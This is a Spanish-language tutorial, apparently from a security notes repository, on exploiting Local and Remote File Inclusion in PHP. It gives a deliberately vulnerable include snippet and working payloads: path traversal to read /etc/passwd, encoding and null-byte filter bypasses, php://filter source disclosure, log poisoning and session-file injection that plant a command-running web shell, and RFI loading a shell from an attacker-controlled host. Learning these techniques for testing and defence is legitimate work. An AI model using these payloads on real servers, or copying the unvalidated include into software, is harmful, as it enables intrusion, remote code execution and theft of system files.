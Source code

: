 # 🛠️ Ejecución de File Inclusion (LFI & RFI)

**File Inclusion** es una vulnerabilidad web que permite a un atacante incluir archivos en el servidor mediante parámetros mal validados en una aplicación web. Existen dos tipos principales:

- **LFI (Local File Inclusion)**: Permite incluir archivos locales del servidor.
- **RFI (Remote File Inclusion)**: Permite incluir archivos remotos, lo que facilita la ejecución de código malicioso.

---

## 📌 **Ejemplo de código vulnerable en PHP**

El siguiente código PHP es vulnerable a File Inclusion porque no filtra adecuadamente la entrada del usuario en la variable `$_GET['file']`:

```php
<?php
$file = $_GET['file'];
include($file);
?>
```

Esto permite a un atacante manipular la ruta del archivo y acceder a archivos internos del sistema o ejecutar código arbitrario.

---

## 🔍 **Ejemplos de explotación de LFI**

### 📂 **Lectura de archivos sensibles**

En sistemas UNIX/Linux, es posible leer archivos críticos del sistema, como `/etc/passwd`, que almacena información de usuarios:

```bash
http://target.com/index.php?file=/etc/passwd
```

Para superar restricciones en la ruta, se usa **Path Traversal**:

```bash
http://target.com/index.php?file=../../../../etc/passwd
```

Algunos servidores implementan filtros básicos, pero pueden ser evitados usando técnicas como:

### 🛠️ **Bypass de filtros**

#### 🔹 **Uso de doble codificación**

Se usa codificación URL para evadir filtros que bloquean `../`:

```bash
http://target.com/index.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
```

#### 🔹 **Uso de null byte (obsoleto en PHP 7+)**

Antiguamente, `null byte` (`%00`) se usaba para truncar extensiones forzadas:

```bash
http://target.com/index.php?file=/etc/passwd%00
```

#### 🔹 **Uso de PHP Wrappers**

PHP tiene **envoltorios (wrappers)** que pueden ser explotados para leer archivos:

```bash
http://target.com/index.php?file=php://filter/convert.base64-encode/resource=config.php
```

Esto devuelve `config.php` codificado en Base64, útil para evadir restricciones.

---

## 💀 **Escalada a RCE desde LFI**

Si el servidor permite la ejecución de código PHP a través de archivos accesibles mediante LFI, es posible lograr ejecución remota de comandos (**RCE**).

### 📝 **Ejemplo con Log Poisoning**

**Log Poisoning** es una técnica en la que un atacante inyecta código malicioso en archivos de logs del servidor y luego los ejecuta a través de LFI.

#### 🔹 **Pasos para explotar Log Poisoning**

1️⃣ **Inyectar código PHP en el log de Apache usando la User-Agent**

```bash
curl -A "<?php system($_GET['cmd']); ?>" http://target.com/
```

Esto inserta código PHP malicioso en los logs de acceso del servidor web.

2️⃣ **Identificar la ubicación del log de acceso del servidor**

Ubicaciones comunes de logs en Apache y Nginx:

```bash
/var/log/apache2/access.log
/var/log/httpd/access.log
/var/log/nginx/access.log
```

3️⃣ **Ejecutar comandos a través del LFI**

```bash
http://target.com/index.php?file=/var/log/apache2/access.log&cmd=id
```

Si el servidor ejecuta PHP dentro del archivo de log, podremos ejecutar comandos en el sistema.

#### 🔹 **Explotación con logs de sesiones PHP**

Si el servidor almacena sesiones PHP en archivos locales, podemos inyectar código en ellas:

1️⃣ **Modificar la sesión PHP para incluir código malicioso**

```bash
echo "<?php system($_GET['cmd']); ?>" > /var/lib/php/sessions/sess_12345
```

2️⃣ **Acceder al archivo de sesión a través de LFI**

```bash
http://target.com/index.php?file=/var/lib/php/sessions/sess_12345&cmd=id
```

Esto permite la ejecución de comandos en el servidor.

---

## 🌍 **Remote File Inclusion (RFI)**

Si el servidor permite la inclusión de archivos remotos, podemos alojar un archivo malicioso y forzar su ejecución.

### ☁️ **Ejemplo de RFI con PHP**

1️⃣ **Subir nuestra shell maliciosa a un servidor controlado por el atacante**

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
python3 -m http.server 8080
```

2️⃣ **Forzar la inclusión del archivo remoto**

```bash
http://target.com/index.php?file=http://attacker.com:8080/shell.php&cmd=id
```

Si el servidor ejecuta el contenido del archivo, hemos logrado RCE.

---

